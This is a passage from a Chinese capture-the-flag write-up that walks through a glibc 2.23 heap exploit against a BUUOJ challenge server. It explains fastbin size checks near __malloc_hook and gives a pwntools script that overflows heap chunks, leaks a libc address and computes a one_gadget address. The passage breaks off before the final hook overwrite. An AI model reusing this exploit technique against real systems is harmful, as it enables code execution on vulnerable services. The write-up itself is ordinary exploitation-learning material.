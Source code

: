 需要注意的是fastbin存在size检查，故具体的**能够让fake chunk的size刚好为特定值**的那个地址可能位于__malloc_hook上方的某一处，需要我们多次尝试得到偏移量

构造payload如下：

```
from pwn import *
p = remote('node3.buuoj.cn',27143)
libc = ELF('./libc-2.23.so')

def alloc(size:int):
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))

def fill(index:int,content):
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(len(content)))
    p.recvuntil('Content: ')
    p.send(content)

def free(index:int):
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def dump(index:int):
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Content: \n')
    return p.recvline()

alloc(0x10) 
alloc(0x10) 
alloc(0x10) 
alloc(0x10) 
alloc(0x80) 

free(1) 
free(2) 

payload = p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21) + p8(0x80)
fill(0,payload)

payload = p64(0)*3 + p64(0x21)
fill(3,payload)

alloc(0x10) 
alloc(0x10) 

payload = p64(0)*3 + p64(0x91)
fill(3,payload)
alloc(0x80) 
free(4) 

main_arena = u64(dump(2)[:8].strip().ljust(8,b'\x00')) - 0x58
malloc_hook = main_arena - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
one_gadget = libc_base + 0x4526a

alloc(0x60) 
free(4) 
```